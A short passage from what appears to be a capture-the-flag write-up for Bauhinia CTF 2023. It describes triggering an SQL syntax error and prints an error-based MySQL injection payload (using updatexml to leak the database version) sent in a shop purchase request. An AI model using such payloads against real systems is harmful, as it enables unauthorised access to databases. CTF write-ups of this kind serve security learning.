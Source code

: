 ![](https://github.com/siunam321/CTF-Writeups/blob/main/Bauhinia-CTF-2023/images/Pasted%20image%2020230821111740.png)

Nice! We successfully triggered an SQL syntax error!

**According to [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md#mysql-error-based---updatexml-function), we can exfiltrate the database data!**
```http
adds=1+and+updatexml(null,concat(0x0a,version()),null)--+-&f=shop&act=buy&temp_id=0
```
